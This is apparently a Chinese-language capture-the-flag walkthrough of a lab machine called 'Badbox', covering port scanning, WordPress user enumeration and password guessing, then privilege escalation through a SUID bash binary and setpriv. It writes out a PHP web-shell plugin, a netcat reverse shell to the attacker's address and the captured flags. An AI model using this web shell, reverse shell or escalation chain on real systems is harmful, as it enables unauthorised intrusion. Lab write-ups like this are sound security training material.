








# Badbox


# badbox

## 端口扫描

```python
(base) ┌──(root㉿kali)-[~]
└─# nmap 192.168.56.171
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-07 12:12 UTC
Nmap scan report for 192.168.56.171
Host is up (0.00068s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:06:EA:A3 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds
                                                                
```

## 80/tcp

访问 80 页面



发现有个域名 badbox.dsz，先加个 host

```php
echo "192.168.56.171 badbox.dsz" | sudo tee -a /etc/hosts
```

使用 `REST API` 先枚举出用户

```php
http://192.168.56.171/?rest_route=/wp/v2/users
```



拿到一个用户名 yepian，爆破拿到密码 yepian:11111111





进入 `插件 -> 上传插件`​，上传自制恶意插件 `badplug.zip`​，插件文件 `badplug.php` 内容为最小命令执行:

```php
<?php
if (isset($_REQUEST['cmd'])) {
    system($_REQUEST['cmd']);
    exit;
}
```

然后压缩一下

```python
zip badplug.zip badplug.php 
```



然后直接访问 http://badbox.dsz/wp-content/plugins/badplug/badplug.php?cmd=id，拿到 shell



然后反弹一个 shell

```php
busybox nc 192.168.56.102 3344 -e /bin/bash
```



稳定一下 shell

```php
/usr/bin/script -qc /bin/bash /dev/null
按下 ctrl z
stty raw -echo; fg
export TERM=xterm
export SHELL=/bin/bash
```



```php
apache@badbox:/home/yepian$ cat user.txt 
flag{user-20d5d73042f640282afa479ef40e63a4}
apache@badbox:/home/yepian$ 
```

## 提权

查 SUID，发现可疑的 /var/tmp/bash

```php
apache@badbox:/home/yepian$ find / -user root -perm -4000 -print 2>/dev/null
/bin/umount
/bin/mount
/bin/bbsuid
/var/tmp/bash
/usr/bin/sudo
/usr/sbin/suexec
```

其中 `/var/tmp/bash`​ 为 SUID bash，`/tmp/bash`​ 虽然也存在，但 `/tmp`​ 挂载了 `nosuid`，不能直接提权。验证一下:

```php
apache@badbox:/home/yepian$ /var/tmp/bash -p -c 'echo EUID=$EUID UID=$UID; cat /proc/$$/status | grep ^Uid'
EUID=0 UID=101
Uid:    101     0       0       0
```

1. `echo EUID=$EUID UID=$UID`  
   先看 shell 自己认为什么身份。

   - `UID`：真实身份，谁启动了这个进程
   - `EUID`：当前生效身份，内核是否把你当 root 用
2. `/proc/$$/status | grep ^Uid`​  
   直接读当前这个 `bash`​ 进程的内核状态，比单看 `id`​ 更稳。  
   ​`Uid:` 后面 4 列通常是：

   ```php
   real    effective    saved    fs

   ```

说明已经拿到有效 root 权限，但真实 UID 仍是 `apache`，部分路径仍会按真实 UID 做限制。

然后使用 `setpriv` 将真实 UID/GID 一并切到 0:

```php
apache@badbox:/home/yepian$ /var/tmp/bash -p -c 'setpriv --reuid=0 --regid=0 --clear-groups /bin/sh -c "id; cat /root/root.txt"'
uid=0(root) gid=0(root)
flag{root-c1c1a07c7fd6cc391464faa7625d7900}
```

- `etpriv`  
  这是个专门改进程身份属性的工具，比靠 shell 花活稳定得多
- `--reuid=0`​  
  把用户身份直接切成 root 这一套  
  重点不是只改 `effective uid`​，而是把这条链上的 UID 语义一并推到 `0`
- `--regid=0`​  
  组身份也一起切成 `root`
- `--clear-groups`​  
  清掉原来继承的附加组，比如 `www-data`​、`apache`  
  避免残留组信息让行为变脏

直接拿 shell

```php
apache@badbox:/home/yepian$ /var/tmp/bash -p -c 'setpriv --reuid=0 --regid=0 --clear-groups /bin/sh'
/home/yepian # id
uid=0(root) gid=0(root)
/home/yepian # 
```

flag：

> flag{user-20d5d73042f640282afa479ef40e63a4}
>
> flag{root-c1c1a07c7fd6cc391464faa7625d7900}

‍


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/badbox/  

